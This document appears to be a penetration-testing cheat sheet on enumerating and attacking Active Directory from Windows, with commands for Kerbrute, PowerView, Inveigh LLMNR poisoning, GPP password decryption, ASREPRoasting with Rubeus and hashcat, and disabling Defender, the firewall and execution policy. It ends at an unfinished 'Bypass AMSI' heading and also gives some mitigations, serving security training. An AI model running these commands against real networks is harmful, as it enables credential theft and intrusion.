

# Enumerating Active Directory from Windows

[Index of Active Directory](active-directory.md)

[Hardening and auditing Active Directory ](hardening-auditing-active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Active directory: connecting to other hosts](active-directory-connections.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)

!!! tip "Linux in AD"
	- [Linux in active directory](linux-in-active-directory.md)


**Tool for enumeration**: 

- [Enumeration with LDAP queries](389-636-ldap.md)
- [PowerView.ps1 from PowerSploit project (powershell)](powerview.md).
- [The ActiveDirectory PowerShell module (powershell)](activedirectory-powershell-module.md).
- [BloodHound (C# and PowerShell Collectors)](bloodhound.md).
- [SharpView (C#)](sharpview.md).
- [kerbrute](kerbrute.md).
- [Crackmapexec](crackmapexec.md).
- [enum4linux](enum4linux.md).
- net.exe.
- [powershell](powershell.md).
- [ActiveDirectory PowerShell Module](activedirectory-powershell-module.md).


## 1. Users

We can escalate privileges to one of the following depending on the system configuration and what type of data we encounter:

|                                                                                                                                                                                                                                                                                                   |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| The highly privileged `NT AUTHORITY\SYSTEM` account, or [LocalSystem](https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account) account which is a highly privileged account with more privileges than a local administrator account and is used to run most Windows services. |
| The built-in local `administrator` account. Some organizations disable this account, but many do not. It is not uncommon to see this account reused across multiple systems in a client environment.                                                                                              |
| Another local account that is a member of the local `Administrators` group. Any account in this group will have the same privileges as the built-in `administrator` account.                                                                                                                      |
| A standard (non-privileged) domain user who is part of the local `Administrators` group.                                                                                                                                                                                                          |
| A domain admin (highly privileged in the Active Directory environment) that is part of the local `Administrators` group.                                                                                                                                                                          |


### Kerbrute

[See kerbrute](kerbrute.md).

 It takes advantage of the fact that Kerberos pre-authentication failures often will not trigger logs or alerts.


```
sudo git clone https://github.com/ropnop/kerbrute.git

# Typing make help will show us the compiling options available.
cd kerbrute
make help

# type make all and compile one each for use on Linux, Windows, and Mac systems (an x86 and x64 version for each).
sudo make all

# The newly created dist directory will contain our compiled binaries.
ls -la dist

# Copy the file to the windows pivoting machine
scp kerbrute_windows_amd64.exe username@$ip:~/
```

```
kerbrute_windows_amd64.exe userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
# d: domain
# --dc: domain controller
# -o: output file
```

### powershell and net commands

#### Enumerate within local
[See powershell](powershell.md)

```powershell
# Prints all the information about the system
systeminfo

# Prints the PC's Name
hostname

# Am I alone
qwinsta

# Display Powershell relevant Powershell version information
echo $PSVersion
echo $PSVersionTable

# Prints out the OS version and revision level
[System.Environment]::OSVersion.Version	

# Prints the patches and hotfixes applied to the host
wmic qfe get Caption,Description,HotFixID,InstalledOn

# Displays a list of environment variables for the current session (ran from CMD-prompt)
set	

# Return environment values such as key paths, users, computer information, etc.
Get-ChildItem Env: | ft Key,Value	

# Displays the domain name to which the host belongs (ran from CMD-prompt)
echo %USERDOMAIN%	

# Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)
echo %logonserver%	

# You can tell if PowerShell is running with administrator privileges (a.k.a “elevated” rights) with the following snippet:
[Security.Principal.WindowsIdentity]::GetCurrent().Groups -contains 'S-1-5-32-544'

# Retrieves the WindowsIdentity for the currently running user.
[Security.Principal.WindowsIdentity]::GetCurrent() 

# Access the groups property of the identity to find out what user groups the identity is a member of.
[Security.Principal.WindowsIdentity]::GetCurrent()(...).groups

# It returns true if groups contains the Well Known SID of the Administrators group (the identity will only contain it if “run as administrator” was used) and otherwise false.
[Security.Principal.WindowsIdentity]::GetCurrent() -contains "S-1-5-32-544" 

# List disabled users with LDAP
Get-ADUser -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=2)' | select name

```

Net commands in powershell:

```powershell
# Information about domain groups
net group /domain	

# List users with domain admin privileges
net group "Domain Admins" /domain

# List of PCs connected to the domain
net group "domain computers" /domain	

# List PC accounts of domains controllers
net group "Domain Controllers" /domain	

# User that belongs to the group
net group <domain_group_name> /domain	

# List of domain groups
net groups /domain	

# All available groups
net localgroup	

# List users that belong to the administrators group inside the domain (the group Domain Admins is included here by default)
net localgroup administrators /domain	

# Information about a group (admins)
net localgroup Administrators	

# Add user to administrators
net localgroup administrators [username] /add	


# Get information about a user within the domain
net user <ACCOUNT_NAME> /domain	

# List all users of the domain
net user /domain	

# Information about the current user
net user %username%	
	
```


### Windows Management Instrumentation (WMI)

```powershell
#Displays information about all local accounts and any domain accounts that have logged into the device
wmic useraccount list /format:list	

# Information about all local groups
wmic group list /format:list	

# Dumps information about any system accounts that are being used as service accounts.
wmic sysaccount list /format:list	
```


### ActiveDirectory PowerShell module

[See more at ActiveDirectory PowerShell module.](activedirectory-powershell-module.md)

**Get-ADDomain**: We'll enumerate some basic information about the domain with the Get-ADDomain cmdlet.

```powershell
# This will print out helpful information like the domain SID, domain functional level, any child domains, and more.
Get-ADDomain
```

**Get-ADUser**: [More on https://learn.microsoft.com/en-us/powershell/module/activedirectory/get-aduser?view=windowsserver2022-ps](https://learn.microsoft.com/en-us/powershell/module/activedirectory/get-aduser?view=windowsserver2022-ps).  

```powershell
# This command gets all users in the container OU=Finance,OU=UserAccounts,DC=FABRIKAM,DC=COM.
Get-ADUser -Filter * -SearchBase "OU=Finance,OU=UserAccounts,DC=FABRIKAM,DC=COM"

# This command gets all users that have a name that ends with SvcAccount:
Get-ADUser -Filter 'Name -like "*SvcAccount"' | Format-Table Name,SamAccountName -A

# This command gets all of the properties of the user with the SAM account name ChewDavid:
Get-ADUser -Identity ChewDavid -Properties *

# This command gets the user with the name ChewDavid in the Active Directory Lightweight Directory Services (AD LDS) instance:
Get-ADUser -Filter "Name -eq 'ChewDavid'" -SearchBase "DC=AppNC" -Properties "mail" -Server lds.Fabrikam.com:50000

# This command gets all enabled user accounts in Active Directory using an LDAP filter: meaning to return all disabled accounts
Get-ADUser -LDAPFilter '(!userAccountControl:1.2.840.113556.1.4.803:=2)'

# search for all administrative users with the `DoesNotRequirePreAuth` attribute set, meaning that they can be ASREPRoasted:
Get-ADUser -Filter {adminCount -eq '1' -and DoesNotRequirePreAuth -eq 'True'}


# Find all administrative users with the SPN "servicePrincipalName" attribute set, meaning that they can likely be subject to a Kerberoasting attack
Get-ADUser -Filter "adminCount -eq '1'" -Properties * | where servicePrincipalName -ne $null | select SamAccountName,MemberOf,ServicePrincipalName | fl

# Another way to retrieve Service Principals
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

```

**Get-ADComputer**: 

```powershell
# Search domain computers for interesting hostnames. SQL servers are a particularly juicy target on internal assessments. The below command searches all hosts in the domain using `Get-ADComputer`, filtering on the `DNSHostName` property that contains the word `SQL`
Get-ADComputer  -Filter "DNSHostName -like 'SQL*'"
```

**Get-ADGroup**:

```powershell
# Group enumeration
Get-ADGroup -Filter * | select name

# Get detailed information about a group
Get-ADGroup -Identity "Backup Operators"

# Search for administrative groups by filtering on the `adminCount` attribute. If set to `1`, it's protected by AdminSDHolder and known as protected groups. `AdminSDHolder` is owned by the Domain Admins group. It has the privileges to change the permissions of objects in Active Directory. 
Get-ADGroup -Filter "adminCount -eq 1" | select Name
```

**Get-ADGroupMember**:

```powershell
# Returns members of a group
Get-ADGroupMember -Identity "Backup Operators"
```

**Get-ADTrust**: Verify domain trust relationships using the [Get-ADTrust](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-adtrust?view=windowsserver2022-ps) cmdlet. This cmdlet will print out any trust relationships the domain has. We can determine if they are trusts within our forest or with domains in other forests, the type of trust, the direction of the trust, and the name of the domain the relationship is with. This will be useful  on when looking to take advantage of child-to-parent trust relationships and attacking across forest trusts. 

```powershell
Get-ADTrust -Filter *
```

### PowerView
[See more at Powerview](powerview.md).

**Module: ActiveDirectory**

```powershell
########################
# Domain/LDAP Functions
########################

# Returns the AD object for the current (or specified) domain
Get-Domain	

# Return a list of the Domain Controllers for the specified domain
Get-DomainController	

# Returns all users or specific user objects in AD
Get-DomainUser	
# Example: 
# Get-DomainUser -Identity $username -Domain $domain | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,useraccountcontrol

# Checks for users with the SPN attribute set
Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName

# Returns all computers or specific computer objects in AD
Get-DomainComputer	

# Returns all groups or specific group objects in AD
Get-DomainGroup	

# Searches for all or specific OU objects in AD
Get-DomainOU

# Finds object ACLs in the domain with modification rights set to non-built in objects
Find-InterestingDomainAcl	

# Returns the members of a specific domain group
Get-DomainGroupMember	
# Example: 
# Get-DomainGroupMember -Identity "Domain Admins" -Recurse
# Adding the -Recurse switch tells PowerView that if it finds any groups that are part of the target group (nested group membership) 

# Returns a list of servers likely functioning as file servers
Get-DomainFileServer	

# Returns a list of all distributed file systems for the current (or specified) domain
Get-DomainDFSShare	


########################
# GPO Functions
########################
# Returns all GPOs or specific GPO objects in AD
Get-DomainGPO	

# Returns the default domain policy or the domain controller policy for the current domain
Get-DomainPolicy	


########################
# Computer Enumeration Functions
########################
# Enumerates local groups on the local or a remote machine
Get-NetLocalGroup

# Enumerates members of a specific local group
Get-NetLocalGroupMember	

# Returns open shares on the local (or a remote) machine
Get-NetShare	

# Returns session information for the local (or a remote) machine
Get-NetSession	

# Tests if the current user has administrative access to the local (or a remote) machine
Test-AdminAccess	
# Example: 
# Test-AdminAccess -ComputerName ACADEMY-EA-MS01


########################
# Threaded 'Meta'-Functions:
########################
# Finds machines where specific users are logged in
Find-DomainUserLocation	

# Finds reachable shares on domain machines
Find-DomainShare	

# Searches for files matching specific criteria on readable shares in the domain
Find-InterestingDomainShareFile	

# Finds machines on the local domain where the current user has local administrator access
Find-LocalAdminAccess	


########################
# Domain Trust Functions:
########################
# Returns domain trusts for the current domain or a specified domain
Get-DomainTrust	

# Returns all forest trusts for the current forest or a specified forest
Get-ForestTrust	

# Enumerates users who are in groups outside of the user's domain
Get-DomainForeignUser	

# Enumerates groups with users outside of the group's domain and returns each foreign member
Get-DomainForeignGroupMember	

# Enumerates all trusts for the current domain and any others seen.
Get-DomainTrustMapping	
```


```powershell
# Gets the ID for the current Domain (useful later for crafting Golden tickets)
Get-DomainID

# Displays policies for the Domain and accounts, including for instance LockoutBadAccounts
Get-DomainPolicy

# Requests the Kerberos ticket for a specified Service Principal Name (SPN) account
Get-DomainSPNTicket
```


### SharpView

[More about SharpView](sharpview.md).


Download github repo from: [https://github.com/tevora-threat/SharpView/](https://github.com/tevora-threat/SharpView/).


```powershell
# Obtain help about a command
\SharpView.exe Get-DomainUser -Help

# Get information about a given user
.\SharpView.exe Get-DomainUser -Identity $username
```


## 2. Credentials 

Here are some other places we should keep in mind when credential hunting:

- Passwords in Group Policy in the SYSVOL share
- Passwords in scripts in the SYSVOL share
- Password in scripts on IT shares
- Passwords in web.config files on dev machines and IT shares
- unattend.xml
- Passwords in the AD user or computer description fields
- KeePass databases --> pull hash, crack and get loads of access.
- Found on user systems and shares
- Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, [Sharepoint](https://www.microsoft.com/en-us/microsoft-365/sharepoint/collaboration)

### Querying the Registry for AutoLogon Credentials

Windows stores AutoLogon credentials in the registry, under a specific path. You can retrieve this information by querying the registry directly.

You can access the relevant registry keys for AutoLogon credentials using PowerShell via Evil-WinRM.

**1.**  **First way**: Use PowerShell to Read Registry Keys

- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`

```powershell
# Query AutoLogon settings from the registry
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" | Select-Object DefaultDomainName, DefaultUserName, DefaultPassword
```

**2.** **Second way**: Check the Registry for AutoLogon Credentials directly:

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

**3.** Search the System for Plaintext Credentials: Sometimes credentials are stored in files or scripts. You can search the filesystem for potential matches using **PowerShell**.

```powershell
Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password|pwd|pass"
```

**4.** Dump the Registry and Analyze Offline: If allowed, you can export the registry hive and analyze it locally.

```powershell
# Export Winlogon Hive:
reg save "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" C:\Users\Public\winlogon.reg
```

**5.** Use Built-in Tools:  Run `cmdkey` to List Stored Credentials.

```powershell
cmdkey /list
```

**6.** Check Scheduled Tasks: Sometimes credentials are stored in scheduled tasks.

```powershell
Get-ScheduledTask | ForEach-Object { Get-ScheduledTaskInfo -TaskName $_.TaskName } | Select-String -Pattern "password|user"
```

**7.** Check Vaults:

```powershell
# List vaults (gets you the exact, non-localized names & GUIDs)
vaultcmd /list

# Common vaults to enumerate (adjust names to what /list shows)
vaultcmd /listcreds:"Windows Credentials" /all
vaultcmd /listcreds:"Web Credentials" /all

```


### Querying patterns of files with findstr

```cmd-session
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```


### LLMNR/NBT-NS Poisoning with Inveigh

[See Inveigh](inveigh.md).

LLMNR & NBT-NS poisoning is possible from a Windows host as well.  Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth.

**Powershell version**: The PowerShell version of Inveigh is the original version and is no longer updated. The tool author maintains the C# version (in the belowed section).

```
# Install the module
Import-Module .\Inveigh.ps1

# List parameters
(Get-Command Invoke-Inveigh).Parameters


# Start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file.
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```


**C#  version**:  Before we can use the C# version of the tool, we have to compile the executable. After that we can run:

```powershell
.\Inveigh.exe
```


Results:

```powershell
[*] Inveigh 2.0.4 [Started 2022-02-28T20:03:28 | PID 6276]
[+] Packet Sniffer Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Listener Addresses [IP 0.0.0.0 | IPv6 ::]
[+] Spoofer Reply Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Spoofer Options [Repeat Enabled | Local Attacks Disabled]
[ ] DHCPv6
[+] DNS Packet Sniffer [Type A]
[ ] ICMPv6
[+] LLMNR Packet Sniffer [Type A]
[ ] MDNS
[ ] NBNS
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
[ ] HTTPS
[+] WebDAV [WebDAVAuth NTLM]
[ ] Proxy
[+] LDAP Listener [Port 389]
[+] SMB Packet Sniffer [Port 445]
[+] File Output [C:\Tools]
[+] Previous Session Files (Not Found)
[*] Press ESC to enter/exit interactive console
[!] Failed to start HTTP listener on port 80, check IP and port usage.
[!] Failed to start HTTPv6 listener on port 80, check IP and port usage.
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[+] [20:03:31] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[-] [20:03:31] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[+] [20:03:31] LLMNR(A) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [response sent]

```


- `[+]`  default option and enabled by default
- `[ ]`  disabled options 

**Console access:** Press ESC to enter/exit interactive console. The console gives us access to captured credentials/hashes, allows us to stop Inveigh, and more.

```powershell-session
# List commands
> HELP

# view unique captured hashes
>  GET NTLMV2UNIQUE

#  see which usernames we have collected.
GET NTLMV2USERNAMES
```


Mitigations:  To ensure that these spoofing attacks are not possible, we can disable LLMNR and NBT-NS.

- We can disable LLMNR in Group Policy by going to Computer Configuration --> Administrative Templates --> Network --> DNS Client and enabling "Turn OFF Multicast Name Resolution."
- NBT-NS cannot be disabled via Group Policy but must be disabled locally on each host. We can do this by opening `Network and Sharing Center` under `Control Panel`, clicking on `Change adapter settings`, right-clicking on the adapter to view its properties, selecting `Internet Protocol Version 4 (TCP/IPv4)`, and clicking the `Properties` button, then clicking on `Advanced` and selecting the `WINS` tab and finally selecting `Disable NetBIOS over TCP/IP`.
- NBT-NS can also be disabled

	- by creating a PowerShell script under Computer Configuration --> Windows Settings --> Script (Startup/Shutdown) --> Startup with something like the following: 

```powershell
regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```

	- Double click on Startup, choose the PowerShell Scripts tab, and select "For this GPO, run scripts in the following order" to Run Windows PowerShell scripts first, and then click on Add and choose the script. 
	- Reboot the target system or restart the network adapter.


>To push this out to all hosts in a domain, we could create a GPO using `Group Policy Management` on the Domain Controller and host the script on the SYSVOL share in the scripts folder and then call it via its UNC path such as: `\\inlanefreight.local\SYSVOL\INLANEFREIGHT.LOCAL\scripts`
>
>Once the GPO is applied to specific OUs and those hosts are restarted, the script will run at the next reboot and disable NBT-NS, provided that the script still exists on the SYSVOL share and is accessible by the host over the network.


Some detection methods: [https://www.praetorian.com/blog/a-simple-and-effective-way-to-detect-broadcast-name-resolution-poisoning-bnrp/](https://www.praetorian.com/blog/a-simple-and-effective-way-to-detect-broadcast-name-resolution-poisoning-bnrp/) 


### Finding Passwords in the Description Field using Get-Domain User

```powershell
# Import PowerView.ps1
Import-Module .\PowerView.ps1
# Find passwords in descriptions
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```

### PASSWD_NOTREQD Field

It is possible to come across domain accounts with the passwd_notreqd field set in the userAccountControl attribute. If this is set, the user is not subject to the current password policy length, meaning they could have a shorter password or no password at all (if empty passwords are allowed in the domain). 


```powershell
# Import PowerView.ps1
Import-Module .\PowerView.ps1
# Find passwords in descriptions
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```

### Credentials in SMB Shares and SYSVOL Scripts

The SYSVOL share can be a treasure trove of data, especially in large organizations. It is recommendable always have to look at it.

#### Group Policy Preferences (GPP) Passwords 

When a new GPP is created, an .xml file is created in the SYSVOL share, which is also cached locally on endpoints that the Group Policy applies to. These files can include those used to:

- Map drives (drives.xml)
- Create local users
- Create printer config files (printers.xml)
- Creating and updating services (services.xml)
- Creating scheduled tasks (scheduledtasks.xml)
- Changing local admin passwords.

These files can contain an array of configuration data and defined passwords. The `cpassword` attribute value is AES-256 bit encrypted, but Microsoft [published the AES private key on MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN), which can be used to decrypt the password. Any domain user can read these files as they are stored on the SYSVOL share, and all authenticated users in a domain, by default, have read access to this domain controller share.

This was patched in 2014 [MS14-025 Vulnerability in GPP could allow elevation of privilege](https://support.microsoft.com/en-us/topic/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevation-of-privilege-may-13-2014-60734e15-af79-26ca-ea53-8cd617073c30), to prevent administrators from setting passwords using GPP. The patch does not remove existing Groups.xml files with passwords from SYSVOL. If you delete the GPP policy instead of unlinking it from the OU, the cached copy on the local computer remains.

In older Windows environments like Server 2003 and 2008, the XML file stores encrypted AES passwords in the “cpassword” parameter that can get decrypted with Microsoft’s public AES key (link). If you retrieve the cpassword value more manually, the `gpp-decrypt` utility can be used to decrypt the password as follows:

```bash
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```

Locating & Retrieving GPP Passwords with CrackMapExec

```shell-session
crackmapexec smb -L | grep gpp
```

To access the GPP information and decrypt its stored password using CrackMapExec, we can use 2 modules — `**gpp_password**` and `**gpp_autologin**` modules. The `**gpp_password**` decrypts passwords stored in the Group.xml file, while `**gpp_autologin**` retrieves autologin information from the Registry.xml file in the preferences folder.


```bash
crackmapexec smb $domainControllerIP -u $user -p $password -M gpp_autologin
# Example:
# crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```

Results:
```
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Usernames: ['guarddesk']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Domains: ['INLANEFREIGHT.LOCAL']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Passwords: ['ILFreightguardadmin!']
```

### 💡 ASREPRoasting

It's possible to obtain the Ticket Granting Ticket (TGT) for any account that has the Do not require Kerberos pre-authentication setting enabled. 

ASREPRoasting is similar to Kerberoasting, but it involves attacking the AS-REP instead of the TGS-REP. An SPN is not required. This setting can be enumerated with PowerView or built-in tools such as the PowerShell AD module.

#### DONT_REQ_PREAUTH Value using Get-DomainUser

Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser

```powershell
Import-Module .\PowerView.ps1
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

With this information in hand, the Rubeus tool can be leveraged to retrieve the AS-REP in the proper format for offline hash cracking. This attack does not require any domain user context and can be done by just knowing the SAM name for the user without Kerberos pre-auth.

```powershell
# Retrieving AS-REP in Proper Format using Rubeus
.\Rubeus.exe asreproast /user:$user /nowrap /format:hashcat
# Example:
# .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

Cracking the Hash Offline with Hashcat:

```bash
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```

#### DONT_REQ_PREAUTH Value using kerbrute

```shell-session
# From linux
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 

# From Windows
 .\kerbrute_Windows.exe userenum -d inlanefreight.local --dc 172.16.5.5 .\users.txt
```

However, this will be as accurate as the user list.


####  Get-NPUsers.py from the Impacket toolkit

```bash
# Retuns all users that with DONT_REQ_PREAUTH amd UF_DONT_REQ_PREAUTH
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile jsmith.txt | grep -v SessionError
```

## 3. Password policy 

Some tools work for this end: `net.exe`, PowerView, CrackMapExec ported to Windows, SharpMapExec, SharpView, etc.

### net.exe

```cmd-session
net accounts
```

### PowerView

Blocked by Microsoft Defender. 
PowerView gave us the same output as our net accounts command, just in a different format but also revealed that password complexity is enabled (PasswordComplexity=1).

```powershell-session
import-module .\PowerView.ps1

Get-DomainPolicy
```

### Windows Management Instrumentation (`WMI`)

```powershell
# Dumps information about any system accounts that are being used as service accounts.
wmic sysaccount list /format:list	
```

### Powershell

[The net.exe commands](powershell.md): 

```powershell
# Information about password requirements
net accounts	

# Password and lockout policy
net accounts /domain

# Information about the current user
net user %username%	
```

### Group Policy Preferences (GPP) Passwords

When a new GPP is created, an .xml file is created in the SYSVOL share, which is also cached locally on endpoints that the Group Policy applies to. These files can include those used to:

- Map drives (drives.xml)
- Create local users
- Create printer config files (printers.xml)
- Creating and updating services (services.xml)
- Creating scheduled tasks (scheduledtasks.xml)
- Changing local admin passwords.

These files can contain an array of configuration data and defined passwords. The `cpassword` attribute value is AES-256 bit encrypted, but Microsoft [published the AES private key on MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN), which can be used to decrypt the password. Any domain user can read these files as they are stored on the SYSVOL share, and all authenticated users in a domain, by default, have read access to this domain controller share.

This was patched in 2014 [MS14-025 Vulnerability in GPP could allow elevation of privilege](https://support.microsoft.com/en-us/topic/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevation-of-privilege-may-13-2014-60734e15-af79-26ca-ea53-8cd617073c30), to prevent administrators from setting passwords using GPP. The patch does not remove existing Groups.xml files with passwords from SYSVOL. If you delete the GPP policy instead of unlinking it from the OU, the cached copy on the local computer remains.

In older Windows environments like Server 2003 and 2008, the XML file stores encrypted AES passwords in the “cpassword” parameter that can get decrypted with Microsoft’s public AES key (link). If you retrieve the cpassword value more manually, the `gpp-decrypt` utility can be used to decrypt the password as follows:

```bash
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```

Locating & Retrieving GPP Passwords with CrackMapExec

```shell-session
crackmapexec smb -L | grep gpp
```

To access the GPP information and decrypt its stored password using CrackMapExec, we can use 2 modules — `**gpp_password**` and `**gpp_autologin**` modules. The `**gpp_password**` decrypts passwords stored in the Group.xml file, while `**gpp_autologin**` retrieves autologin information from the Registry.xml file in the preferences folder.


```bash
crackmapexec smb $domainControllerIP -u $user -p $password -M gpp_autologin
# Example:
# crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```

Results:
```
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Usernames: ['guarddesk']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Domains: ['INLANEFREIGHT.LOCAL']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Passwords: ['ILFreightguardadmin!']
```


## 4. Networks

### Powershell

[See powershell](powershell.md).

```powershell
# Lists all known hosts stored in the arp table.
arp -a

# Prints out adapter settings for the host. We can figure out the network segment from here.
ipconfig /all	

# Displays the routing table (IPv4 & IPv6) identifying known networks and layer three routes shared with the host.
route print

# Displays the status of the host's firewall. We can determine if it is active and filtering traffic.
netsh advfirewall show allprofiles
```


**Evasion trick**: If you believe the network defenders are actively logging/looking for any commands out of the normal, you can try this workaround to using net commands. Typing `net1` instead of `net` will execute the same functions without the potential trigger from the net string. [The net.exe commands](powershell.md): 

```powershell
# Information about password requirements
net accounts	

# Password and lockout policy
net accounts /domain

# Information about domain groups
net group /domain	

# List users with domain admin privileges
net group "Domain Admins" /domain

# List of PCs connected to the domain
net group "domain computers" /domain	

# List PC accounts of domains controllers
net group "Domain Controllers" /domain	

# User that belongs to the group
net group <domain_group_name> /domain	

# List of domain groups
net groups /domain	

# All available groups
net localgroup	

# List users that belong to the administrators group inside the domain (the group Domain Admins is included here by default)
net localgroup administrators /domain	

# Information about a group (admins)
net localgroup Administrators	

# Add user to administrators
net localgroup administrators [username] /add	

# Check current shares
net share	

# Get information about a user within the domain
net user <ACCOUNT_NAME> /domain	

# List all users of the domain
net user /domain	

# Information about the current user
net user %username%	

# Mount the share locally
net use x: \computer\share	

# Get a list of computers
net view	

# 	Shares on the domains
net view /all /domain[:domainname]

# List shares of a computer
net view \computer /ALL	

# List of PCs of the domain
net view /domain	
```


## 5. Security controls 

**cmd**

```cmd
# Check if Windows Defender is running (from CMD.exe). 
sc query windefend
```

### Powershell
[See powershell](powershell.md).

**Policies and antivirus**

```powershell
# Lists available modules loaded for use.
Get-Module	

#  print the execution policy settings for each scope on a host.
Get-ExecutionPolicy -List	

#This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.
Set-ExecutionPolicy Bypass -Scope Process	
```

 [AppLocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker) is Microsoft's application whitelisting solution and gives system administrators control over which applications and files users can run.

```powershell
# Enumerate AppLocker policies 
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
# If we find that a file cannot be run from a location, maybe we can try to run it from another location.

# Quickly enumerate whether we are in Full Language Mode or Constrained Language Mode.
$ExecutionContext.SessionState.LanguageMode

# Check current execution policy. If the answer is
# - "Restricted": Ps scripts cannot run.
# - "RemoteSigned": Downloaded scripts will require the script to be signed by a trusted publisher.
Get-ExecutionPolicy

# Bypass execution policy
powershell -ep bypass

# Get the current Defender status.
Get-MpComputerStatus

# Deactivate antivirus from powershell session (if user has rights to do so)
Set-MpPreference -DisableRealtimeMonitoring $true

# Disable firewall
netsh advfirewall set allprofiles state off

# Bypass AMSI
